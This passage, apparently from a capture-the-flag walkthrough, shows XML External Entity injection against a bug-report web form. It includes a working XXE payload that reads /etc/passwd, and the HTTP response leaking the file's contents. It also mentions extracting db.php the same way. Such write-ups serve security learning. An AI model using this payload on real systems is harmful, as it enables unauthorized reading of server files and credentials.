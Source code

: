Based on this checking, as we're handling a XML file this web application could be vulnerable to **XXE (XML External Entity).**

## Initial Access and User flag

To confirm the vulnerability, made some adjustments on the XML posted to the web application following some of the suggestions on [detecting the vulnerability, from PayloadsAllTheThings/XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#detect-the-vulnerability), posting the data below Base64 encoded and then URL Encoded. This will return the contents of `/etc/passwd` file, as well as the base64 encoded content of `db.php`, previously enumerated.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<bugreport>
    <title>&xxe;</title>
    <cwe>1</cwe>
    <cvss>2</cvss>
    <reward>3</reward>
</bugreport>
```

The result obtained confirmed the vulnerability :smiley:

```html
HTTP/1.1 200 OK
Date: Thu, 19 Aug 2021 14:59:25 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2344
Connection: close
Content-Type: text/html; charset=UTF-8

If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
```